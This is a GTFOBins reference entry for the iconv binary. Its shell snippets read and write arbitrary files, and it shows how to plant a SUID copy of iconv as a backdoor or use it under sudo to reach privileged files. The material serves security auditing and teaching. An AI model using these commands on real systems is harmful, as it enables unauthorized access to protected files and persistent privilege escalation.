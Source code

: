 # GTFOBin: iconv

The `8859_1` encoding is used as it accepts any single-byte sequence, thus it allows to read/write arbitrary files. Other encoding combinations may corrupt the result.

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
echo "DATA" | iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
iconv -f 8859_1 -t 8859_1 "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which iconv) .

LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```